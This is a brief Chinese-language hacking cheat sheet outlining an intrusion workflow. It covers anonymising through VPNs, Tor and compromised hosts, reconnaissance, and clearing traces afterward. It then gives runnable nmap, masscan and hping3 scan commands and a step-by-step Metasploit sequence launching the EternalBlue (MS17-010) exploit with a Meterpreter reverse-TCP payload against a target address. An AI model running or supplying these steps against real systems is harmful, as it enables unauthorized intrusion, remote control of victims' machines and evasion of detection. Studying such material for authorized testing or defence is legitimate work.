 1、隐藏身份：VPN，国外代理池、Tor，肉鸡、docker、虚拟机、

2、信息收集：站长查询站点库、、备案站、社工库、谷歌、邮箱、手机、域名、注册信息、robots泄露、Shodan、工具（Nmap、Zmap、Webscan、Hackmall、Sqlmap、msf，whatweb，nikto，w3af，nc）、历史漏洞库exploitdb

3、系统漏洞（Systeminfo、uname -a），web漏洞、数据库漏洞、弱口令burp、

4、社会工程：

5、后渗透metasploit、empire、cobalt strike

6、清理痕迹

---
信息收集

nmap -Ss  -p 80-88 -v 1.1.1.1	扫描端口

nmap -sS 10.x.x.x //usually

nmap -A -O -sV -p 443  --script=vuln 10.x.x.x //vuln

Masscan 10.11.0.0/16 –top-ports 100 > results.txt

fping -a -g 192.168.169.0/24

hping3 172.28.1.1 -S -V -c 100 -p 80


---
字典

路径：/usr/share/wordlists/

---
metasploit

进入框架：msfconsole

    使用search命令查找相关漏洞： search  ms17-010

    使用use进入模块:  use exploit/windows/smb/ms17_010_eternalblue

    使用info查看模块信息： info

    设置攻击载荷：set payload windows/x64/meterpreter/reverse_tcp

    查看模块需要配置的参数：show options

    设置参数：set  RHOST  192.168.125.138

    攻击：exploit /  run

    后渗透阶段
    
exploit漏洞利用模块路径：/usr/share/metasploit-framework/modules/exploits

payload模块路径：/usr/share/metasploit-framework/modules/payloads

search scanner type:auxiliary 搜索

auxiliary/scanner/ftp/ftp_version        #发现内网ftp服务，基于默认21端口

auxiliary/scanner/ssh/ssh_version        #发现内网ssh服务，基于默认22端口
